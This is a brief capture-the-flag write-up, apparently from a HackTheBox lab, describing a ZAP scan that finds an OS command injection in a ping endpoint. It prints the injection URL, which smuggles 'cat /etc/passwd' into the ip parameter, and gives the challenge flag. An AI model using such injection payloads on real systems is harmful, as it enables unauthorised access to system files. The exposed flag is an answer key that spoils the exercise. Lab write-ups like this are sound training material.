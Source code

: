 ## Challenge
Run ZAP Scanner on the target above to identify directories and potential vulnerabilities. Once you find the high-level vulnerability, try to use it to read the flag at '/flag.txt'

## Solution
After doing the ZAP Scanner There was a `Remote OS Command Injection` vulnerability on `94.237.59.180:51690/devtools/ping?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26`

Now let's try to read the flag which is `HTB{5c4nn3r5_f1nd_vuln5_w3_m155}`